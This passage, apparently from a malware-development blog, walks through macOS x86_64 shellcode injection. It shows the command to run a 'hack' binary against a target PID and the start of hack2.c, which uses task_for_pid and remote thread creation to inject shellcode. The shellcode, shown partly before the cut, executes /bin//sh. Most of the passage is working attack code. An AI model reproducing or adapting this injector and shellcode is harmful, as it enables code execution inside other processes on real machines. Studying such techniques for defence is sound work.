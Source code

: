 And run:    

```bash
./hack <PID>
```

![malware](/assets/images/174/2025-08-21_17-45_2.png){:class="img-responsive"}    

As you can see, everything is worked perfectly! =^..^=    

### practical example 2

In this case, just update my shellcode:     

```cpp
/*
 * hack2.c
 * macOS x86_64 shellcode injection 
 * using task_for_pid and 
 * remote thread creation
 * author @cocomelonc
 * https://cocomelonc.github.io/macos/2025/08/24/malware-mac-10.html
 */
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <mach/mach.h>
#include <mach/mach_vm.h>
#include <mach/thread_act.h>
#include <mach/thread_status.h>

unsigned char shellcode[] =
  /* 0000 */ "\x31\xf6"                                 /* xor     esi, esi                */
  /* 0002 */ "\xf7\xe6"                                 /* mul     esi                     */
  /* 0004 */ "\x0f\xba\xe8\x19"                         /* bts     eax, 0x19               */
  /* 0008 */ "\xb0\x3b"                                 /* mov     al, 0x3b                */
  /* 000A */ "\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68" /* movabs  rbx, 0x68732f2f6e69622f */
  /* 0014 */ "\x52"                                     /* push    rdx                     */
  /* 0015 */ "\x53"                                     /* push    rbx                     */
  /* 0016 */ "\x54"                                     /* push    rsp                     */
  /* 0017 */ "\x5f"                                     /* pop     rdi                     */
```